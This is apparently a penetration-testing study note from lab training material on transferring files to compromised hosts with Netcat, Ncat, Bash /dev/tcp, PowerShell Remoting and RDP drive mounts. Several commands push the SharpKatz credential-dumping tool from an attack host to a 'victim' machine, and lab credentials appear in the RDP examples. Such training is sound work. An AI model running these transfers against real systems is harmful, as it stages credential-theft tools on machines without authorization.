 # 🚘 Miscellaneous File Transfer

Here we'll see how to transfer files using [Netcat](https://en.wikipedia.org/wiki/Netcat), [Ncat](https://nmap.org/ncat/) and using RDP and PowerShell sessions.

### Netcat

Netcat is used for reading from and writing to network connections using TCP or UDP

**Transfer files ->**

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

Here we use the options for listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard\_streams#Standard\_input\_\(stdin\)) using a single greater-than `>` followed by the filename

and if the compromised machine is using Ncat we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

#### Ncat

```shell-session
 ncat -l -p 8000 --recv-only > SharpKatz.exe
```

**Sending File to Compromised machine**

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted.

**Ncat**

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

***

in scenarios where there's a firewall blocking inbound connections we can  listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework\_4.7\_x64/SharpKatz.exe) as input to Netcat.

```
#On our attack host
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```
#On target machine
nc 192.168.49.128 443 > SharpKatz.exe
```

**Ncat**

```
#On our attack host
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```
#On target machine
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

***

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

**Sending File as Input to Netcat**

<pre class="language-shell-session"><code class="lang-shell-session">#Original Netcat
<strong>sudo nc -l -p 443 -q 0 &#x3C; SharpKatz.exe
</strong><strong>
</strong>#Ncat
sudo ncat -l -p 443 --send-only &#x3C; SharpKatz.exe
</code></pre>

And then our victim connects to ncat Using /dev/tcp to Receive the File

```shell-session
#Victim
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell

If we encounter scenarios where HTTP, HTTPS, or SMB are unavailable we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

Here we will transfer a file from `DC01` to `DATABASE01` and vice versa. We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**

```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

**Create a PowerShell Remoting Session to DATABASE01**

```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

**Copy samplefile.txt from our Localhost to the DATABASE01 Session**

```
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**

```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

### RDP

We can transfer files using RDP by copying and pasting. We can right-click and copy a file from the Windows machine we connect to and paste it into the RDP session.

If we are connected from Linux, we can use `xfreerdp` or `rdesktop`

As an alternative to copy and paste, we can mount a local resource on the target RDP server. `rdesktop` or `xfreerdp` can be used to expose a local folder in the remote RDP session.

**Mounting a Linux Folder Using rdesktop**

```shell-session
ElFelixi0@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

**Mounting a Linux Folder Using xfreerdp**

```shell-session
ElFelixi0@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
